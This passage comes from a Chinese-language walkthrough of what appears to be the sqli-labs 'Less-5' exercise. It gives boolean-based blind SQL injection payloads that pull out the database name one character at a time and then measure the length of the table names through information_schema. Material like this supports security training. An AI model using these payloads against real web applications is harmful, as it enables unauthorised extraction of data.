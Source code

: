 ![Less-5_7](./img/Less-5_7.png)



依次注入不同参数的<code>sql</code>语句爆破数据库名的其他字符串

~~~ shell
?id=1'and ascii(substr((select database()),3,1))=(这里一个十进制数据)--+
?id=1'and ascii(substr((select database()),4,1))=(这里一个十进制数据)--+
?id=1'and ascii(substr((select database()),5,1))=(这里一个十进制数据)--+
?id=1'and ascii(substr((select database()),6,1))=(这里一个十进制数据)--+
?id=1'and ascii(substr((select database()),7,1))=(这里一个十进制数据)--+
?id=1'and ascii(substr((select database()),8,1))=(这里一个十进制数据)--+
~~~



+ 然后是注入以下<code>sql</code>语句爆破数据表的长度

~~~ shell
?id=1'and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))=29--+
判断所有表名字符长度。
~~~
